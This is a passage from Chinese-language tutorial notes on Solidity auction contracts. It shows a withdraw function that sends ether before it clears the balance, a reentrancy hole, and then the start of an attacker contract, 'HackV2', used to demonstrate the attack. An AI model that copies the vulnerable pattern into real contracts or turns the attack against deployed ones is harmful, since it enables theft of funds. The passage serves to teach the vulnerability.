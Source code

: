 ```solidity
	
	/// 使用withdraw模式
	/// 由投标者自己取回出价，返回是否成功
	function withdraw() public returns (bool) {
		// 拍卖已截至
		require(now > auctionEnd);
		// 竞拍成功的人需要把钱给收益人，不可取回出价
		require(msg.sender != highestBidder);
		// 当地址有钱可取
		require(bids[msg.sender] > 0);
		
		uint amount = bids[msg.sender];
		if (msg.sender.call.value(amount)()) {
			bids[msg.sender] = 0;
			return true;
		}
		return false;
	}
	
	/// 结束拍卖，把最高的出价发送给受益人
	function pay2Beneficiary() public returns (bool) {
		//拍卖已经截至
		require(now > auctionEnd);
		// 有钱可以支付
		require(bids[highestBidder] > 0);
		
		uint amount = bids[highestBidder];
		bids[highestBidder] = 0;
		emit Pay2Beneficiary(highestBidder, bids[highestBidder]);
		
		if (!beneficiary.call.value(amount)()) {
			bids[highestBidder] = amount;
			return false;
		}
		return true;
	}
}
```

这个版本不使用循环返回押金，未拍卖成功的账户**自己调用withdraw函数取回自己的押金**

### 重入攻击(Re-entrancy Attack)

当合约账户收到ETH但未调用函数时，会立刻执行`fallback()`函数

通过`addr.send()` `addr.transfer()` `addr.call.vallue()()`三种方式付钱都会触发`addr`里的`fallback()`函数。

`fallback()` 函数由用户自己编写

```
pragma solidity ^0.4.21;

import "./SimpleAuctionV2.sol";

contract HackV2 {
	uint stack = 0;
	
	function hack_bid(address addr) payable public {
		SimpleAuctionV2 sa = SimpleAuctionV2(addr);
		sa.bid.value(msg.value)();
	}
	
	function hack_withdraw(address addr) public payable{
		SimpleAuctionV2(addr).withdraw();
	}
```